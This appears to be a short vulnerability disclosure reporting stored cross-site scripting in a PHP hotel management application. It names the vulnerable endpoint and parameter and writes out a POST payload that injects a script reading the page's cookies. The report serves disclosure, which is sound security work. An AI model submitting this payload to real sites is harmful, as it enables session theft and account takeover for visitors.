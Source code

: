 # Multi Language Hotel Management Software v1.0 has stored cross-site scripting

BUG_Author: getshell

Website source code address: https://www.sourcecodester.com/php/15551/multi-language-hotel-management-software-free-download-source-code.html

Vulnerability url: /sparkz/ajax.php

POST parameter complaint_type exists stored cross-site scripting

Payload:complainant_name=1&complaint_type=<script>alert(document.cookie)</script>&complaint=2&createComplaint=

![image](https://github.com/admin-passwd/bug_report/blob/main/sql1.png)

Payload will trigger when a user visits on http://localhost/sparkz/index.php?complain

![image](https://github.com/admin-passwd/bug_report/blob/main/sql2.png)
